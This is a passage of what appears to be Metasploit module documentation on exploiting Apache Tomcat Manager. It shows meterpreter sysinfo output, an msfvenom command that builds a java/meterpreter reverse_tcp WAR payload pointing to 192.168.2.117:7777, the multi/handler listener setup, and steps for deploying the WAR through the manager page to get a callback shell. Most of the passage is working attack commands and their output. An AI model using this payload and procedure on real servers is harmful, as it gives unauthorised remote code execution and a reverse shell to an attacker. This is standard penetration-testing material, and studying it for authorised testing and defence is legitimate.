     meterpreter > sysinfo
    Computer    : tomcat
    OS          : Linux 4.4.0-59-generic (amd64)
    Meterpreter : java/linux
    ```

# Manual Exploitation

## Create payload
This was performed on Windows XP with the following permissions as the user that was used to login:

* Tomcat 6.0.48: `manager`
* Tomcat 7.0.73: `manager-gui`
* Tomcat 8.0.39: `manager-gui`

```
/metasploit-framework# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.2.117 LPORT=7777 -f war -o meterp.war
Payload size: 6072 bytes
Final size of war file: 6072 bytes
Saved as: meterp.war
```

## Setup Handler

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(handler) > set lport 7777
lport => 7777
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.2.117:7777 
[*] Starting the payload handler...
```

## Deploy

1. With a web browser, browse to `http://<ip>:<port>/manager/html`
2. Enter credentials (no default)
3. Under `Deploy` > `WAR file to deploy`, click browse to select `meterp.war`, click `Deploy`
4. `meterp` should now be listed under `Applications`, meaning it was successfully deployed.
5. Either click the link for `/meterp` or browse to `http://<ip>:<port>/meterp/`

## Callback
After browsing to that page, code execution will happen, and your callback will hit.
